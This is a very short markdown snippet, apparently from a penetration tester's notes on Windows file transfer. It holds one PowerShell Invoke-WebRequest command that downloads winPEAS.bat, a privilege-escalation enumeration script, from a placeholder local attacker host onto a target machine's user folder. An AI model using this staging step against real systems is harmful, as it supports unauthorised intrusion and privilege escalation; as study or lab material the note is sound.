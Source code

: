 # Windows File Transfer Commands

---

```
Invoke-WebRequest -Uri "http://<local_ip>/winPEAS.bat" -OutFile "C:\Users\Jareth\Documents\winPEAS.bat"
```
